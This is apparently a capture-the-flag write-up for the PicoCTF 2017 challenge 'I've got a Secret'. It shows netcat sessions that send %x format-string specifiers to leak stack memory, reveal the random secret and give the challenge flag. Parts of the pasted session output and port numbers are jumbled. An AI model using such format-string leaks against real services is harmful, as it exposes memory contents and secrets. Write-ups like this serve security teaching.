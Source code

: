 # PicoCTF_2017: I've got a Secret

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Hopefully you can find the right format for my [secret](secret.c)! Source. Connect on shell2017.picoctf.com:391655189.

**Hint:**

>This is a beginning format string attack.

## Write-up
A classic format string attack, which means passing the conversion string in the input field to get the memory address of the stack.

By running the code for the first time, we come to know that the secret is in hex format, so `%x` can be used to attack this code.

    $ nc shell2017.picoctf.com 39169
	55189
    Give me something to say!
	    %x %x %x %x %x %x %x %x %x %x
	    40 f7fc7c20 8048792 1 ffffdd34 4ef971b518d28c09 3 f7fc73c4
	 ffffdca0 0
    Now tell my secret in hex! Secret: 0xf7fc7c203c4
    As my friend says,"You get nothing! You lose! Good day, Sir!"

With the same input `%x %x %x %x %x %x %x %x` run the program for some times to see that the 5th column generates a new value everytime. That's because of the urandom in the program and we can decide that this should be the required secret hex value.

    $ nc shell2017.picoctf.com 39169
	55189
    Give me something to say!
	    %x %x %x %x %x %x %x %x %x
	 %x
    40 f7fc7c20 8048792 1 ffffdd34 4ef971b518d28c09 3 f7fc73c4
	 ffffdca0 0
    Now tell my secret in hex! Secret: 4ef971b5
	c9fd8f8a1dcaee8962bc60cb516a79a5
	0x18d28c09
    a18450ba7aaa8c085c522cdef6ab35ab
    Wow, you got it!

Therefore, the flag is `c9fd8f8a1dcaee8962bc60cb516a79a5a18450ba7aaa8c085c522cdef6ab35ab`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTgzMjQyOTUyMCwtMTY0OTEwMzc1Nl19
-->